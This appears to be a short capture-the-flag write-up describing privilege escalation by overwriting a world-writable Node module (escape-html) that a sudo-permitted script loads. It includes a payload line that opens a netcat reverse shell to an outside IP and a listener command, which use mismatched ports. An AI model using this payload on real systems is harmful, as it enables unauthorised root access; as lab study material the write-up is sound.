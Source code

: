 # Privilege Escalation
sudo -l

sudo: /usr/local/bin/escaper


```
escaper is a symbolic link to a file /usr/local/lib/node_modules/app/bin/index.js
```

# Thought
By reading the content of the escaper file, I saw that it was requiring some two modules;
~~~bash
express  
escape-html
~~~

After seeing this, i used the `find` command to locate what took my interest (escape-html);
~~~bash
find / -iname "escape-html" 2>/dev/null 
~~~

After finding it, I `cd` into it listed the content of it with `ls -la`. Immediately, i saw index.js file in it with it's permissions being set as `-rw-rw-rw-`.


# Payload
I injected this payload into it
```sh
echo 'module.exports = function() { require("child_process").exec("id; whoami; nc -e /bin/bash 10.10.6.78 4444"); }' > /opt/app/node_modules/escape-html/index.js
``` 
# Execution
I set up my listening server on my host machine with;
```sh
nc -lnvp 444
```

Now, on the target, I run
```bash
sudo /usr/local/bin/escaper
``` 

**B000M** i GOT A REVERSE SHELL AS ROOT.


Have fun reading tho it's nasty.